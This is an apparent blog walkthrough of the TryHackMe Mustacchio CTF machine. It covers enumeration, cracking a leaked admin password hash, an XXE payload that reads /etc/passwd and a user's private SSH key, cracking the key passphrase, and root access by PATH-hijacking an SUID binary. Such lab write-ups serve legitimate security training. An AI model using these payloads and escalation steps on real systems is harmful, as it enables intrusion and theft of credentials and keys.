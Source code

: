 +++
title = 'Mustacchio Walkthrough | Try Hack Me | Ally Petitt'
date = 2022-02-18
draft = false
showtoc=true
tags= ["TryHackMe", "XXE", "CTF", "Tutorial"]
+++
![](https://cdn-images-1.medium.com/max/800/1*F19asfqgh7o-jFDVwsTizA.png)

**Introduction**
================

Hey everyone! This is a write-up of how I was able to pwn the Mustacchio machine. I hope you enjoy!

Notes:   
* This was done on a Kali Linux machine so the commands might be slightly different if you are on Windows

**Enumeration**
===============

To begin, I scanned for open ports using [RustScan](https://github.com/RustScan/RustScan). RustScan, for those who have never heard of it, is essentially a much faster version of Nmap. You can use Nmap if you prefer. My results were as follows:

`PORT STATE SERVICE REASON VERSION  
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)  
80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))  
| http-robots.txt: 1 disallowed entry   
|_/  
| http-methods:   
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Mustacchio | Home  
8765/tcp open http syn-ack nginx 1.10.3 (Ubuntu)  
|_http-server-header: nginx/1.10.3 (Ubuntu)  
|_http-title: Mustacchio | Login  
| http-methods:   
|_ Supported Methods: GET HEAD POST  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

As shown by this scan, there are 3 ports open. I investigated the website on port 80 first. I looked through the source code, checked for cookies, looked for linked javascript files, and tested the contact form for cross-site scripting. I found nothing interesting, so I continued to do directory enumeration using [FFUF](https://github.com/ffuf/ffuf) (you can also use Wfuzz, Gobuster, or DirBuster for this part).

`ffuf -u <http://10.10.93.193/FUZZ> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![](https://cdn-images-1.medium.com/max/800/1*erwnChNmTvF8tXrU6r_S-Q.png)
The custom directory looks interesting. I noticed it earlier when I was looking at the linked JavaScript files. Let’s investigate.

![](https://cdn-images-1.medium.com/max/800/1*V_As8mpAktOxs0GjknBnAw.png)
And we have access to these files! I went inside the JavaScript file and found a file called users.bak. I downloaded the file and ran the strings command on it.

`$ strings users.bak   
SQLite format 3  
tableusersusers  
CREATE TABLE users(username text NOT NULL, password text NOT NULL)  
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`

From this file, we have learned that they are using SQLite 3 to store their users. Now, we have a way to view the admin user in their database. Great! Before we go deeper into this, I’d like to explore the other web server running on port 8765.

![](https://cdn-images-1.medium.com/max/800/1*tmf5emcwConOrADGYV4Veg.png)
How great is this! We found the admin panel where we can log in as admin. Let’s see if we can get the admin credentials using the users.bak file.

Exploitation
============

After a few Google searches, I found out how to open this file. I used the SQLite3 CLI:

`$ sqlite3 users.bak  
SQLite version 3.36.0 2021–06–18 18:36:39  
Enter “.help” for usage hints.  
sqlite> .tables  
users  
sqlite> .dump users  
PRAGMA foreign_keys=OFF;  
BEGIN TRANSACTION;  
CREATE TABLE users(username text NOT NULL, password text NOT NULL);  
INSERT INTO users VALUES(‘admin’,’1868e36a6d2b17d4c2745f1659433a54d4bc5f4b’);  
COMMIT;`

And there is the password hash that we found when we initially used the strings command on users.bak 😂. I tried to use my best buddy John for help, but he failed me today. Instead, I resorted to hashcat to crack the password.

`$ hashcat -m 100 ./hash /usr/share/wordlists/rockyou.txt`

![](https://cdn-images-1.medium.com/max/800/1*n3kLAAUq1LNmS2DrlBHwcA.png)
And we have our password! With the newfound credentials `admin:bulldog19` I logged into the admin console on port 8765. Success! The credentials worked.

![](https://cdn-images-1.medium.com/max/800/1*0UmbX55dZohkB-gKgPoRBw.png)
While looking at the page source, two things immediately stand out to me.

1. I see a comment left by the developer
2. The name of the input box is “xml”

![](https://cdn-images-1.medium.com/max/800/1*0tRlE5e6aAO2JQcOEZREOw.png)
When I try press submit without writing anything in the textarea, I am greeted by the following alert:

![](https://cdn-images-1.medium.com/max/800/1*cD5Mov3ZH_r2YjtzfLoX3w.png)
Interesting. Maybe we can submit our own XML code to perform a reverse shell. One of the [most common XML vulnerabilities](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870) is an XML Eternal Entity (XXE) injection, so let’s test for it in this application! I used the XXE payload from this [blog post](https://cybarrior.com/blog/2019/11/28/xml-external-entity-xxe-injection-payload-list/):

`<?xml version=”1.0" encoding=”UTF-8"?>  
<!DOCTYPE comment [<!ENTITY xee SYSTEM “/etc/passwd”> ]>  
<comment>  
 <com>&xee;</com>  
</comment>`

When I type this in the text area and press “Submit”, I see the following on my screen:

![](https://cdn-images-1.medium.com/max/800/1*XQySYPmpIgWDqkmlXyx_Ag.png)
Success! This application is vulnerable to XXE injection. Let’s use this vulnerability to get our first flag.

User.txt
========

Here, we can see Barry as a user on this machine. Recalling that we found a comment regarding his SSH key in the source code, maybe we can find his private key to gain SSH access to this server. To do this, I looked inside his .ssh folder inside his home directory. I simply changed `/etc/passwd` to `/home/barry/.ssh/id_rsa` as "id\_rsa" is a common name for the file containing a private ssh key.

![](https://cdn-images-1.medium.com/max/800/1*yEC5KVva_GVYWI45nKBEfg.png)
Success! We can now see Barry’s private SSH key. If we were to directly copy-paste this from the webpage we would have formatting issues. Instead, I inspected the page and copied the key from the HTML. I then pasted it into a file called “id\_rsa\_barry”, **making sure that there is no white space**. I changed the permissions on the file using this command:

`chmod 400 id_rsa_barry`

I went to ssh into the machine and this was my result:

![](https://cdn-images-1.medium.com/max/800/1*mGKSvT93JzuxBhgxAvxBIg.png)
It seems that we need a passphrase. The passphrase should be within the private SSH key file, which we can crack using John.

`$ python3 /usr/share/john/ssh2john.py id_rsa_barry > id_rsa_barry.hash  
 $ john — wordlist=/usr/share/wordlists/rockyou.txt id_rsa_barry.hash`

![](https://cdn-images-1.medium.com/max/800/1*DFe8cHaY9rABFQoOAkr-iA.png)
Great! Now we have the passphrase to use. I used the same ssh command from before to log in and entered the passphrase that I just found. And we are in.

![](https://cdn-images-1.medium.com/max/800/1*RBrrcp7EVvjb9szz2tLUGg.png)
Privilege Escalation
====================

First, I took a look at Barry’s id.

`barry@mustacchio:~$ id  
uid=1003(barry) gid=1003(barry) groups=1003(barry)`

It appears that he is not in any groups that we could use for privilege escalation. I also used `sudo -l` to see if there are any commands that we can run as root without a password. This turned out not to be the case. Then, I checked for any SUID binaries. These are files that can run with root privileges.


```
barry@mustacchio:~$ find / -perm -4000 2>/dev/null  
/usr/lib/x86\_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/snapd/snap-confine  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/bin/passwd  
/usr/bin/pkexec  
/usr/bin/chfn  
/usr/bin/newgrp  
/usr/bin/at  
/usr/bin/chsh  
/usr/bin/newgidmap  
/usr/bin/sudo  
/usr/bin/newuidmap  
/usr/bin/gpasswd  
**/home/joe/live\_log**  
/bin/ping  
/bin/ping6  
/bin/umount  
/bin/mount  
/bin/fusermount  
/bin/su
```
Interesting, “live\_log” is in Joe’s home directory. Maybe we have permission to execute it.

`barry@mustacchio:~$ cd /home/joe && ls -la  
total 28  
drwxr-xr-x 2 joe joe 4096 Jun 12 2021 .  
drwxr-xr-x 4 root root 4096 Jun 12 2021 ..  
-rwsr-xr-x 1 root root 16832 Jun 12 2021 live_log`

And we do! When I run it, it appears to launch an application.

![](https://cdn-images-1.medium.com/max/800/1*4UbZ77EZp3aHOXEHYvNonQ.png)
This isn’t very useful to us because we can’t interact with the application! Instead, I looked further into the file using the `strings` command. Additionally, I used `awk` so that we would only see the long strings that are more likely to be helpful. If nothing useful came out, then I would lower the minimum string length from 15 characters to 10 and so on because the output can often be very long.

`$ strings live_log | awk ‘length($0) > 15’`

![](https://cdn-images-1.medium.com/max/800/1*8nyN1k4x9nZpM1sGpDmSsg.png)
Interesting. There is a path to “access.log” and the full path for the `tail` command isn’t used. Maybe we can change the PATH variable so that we can use our own “tail” command that gives us root.

`$ export PATH=/tmp  
$ cd /tmp  
$ echo “/bin/bash -p” > tail  
$ /bin/chmod +x tail  
$ /home/joe/live_log  
# /usr/bin/whoami  
root  
# /bin/cat /root/root.txt  
[REDACTED]`

And it works! Since “live\_log” was an SUID binary, we were able to run it as root. We were able to redirect the path from `/usr/bin/tail` to `/tmp/tail` which allowed us to run `/bin/bash` as root, giving us a root shell.

That’s all! I hope you enjoyed my explanations. Please send me any constructive feedback [via LinkedIn](https://www.linkedin.com/in/ally-petitt-5a02aa208/). Thank you and take care!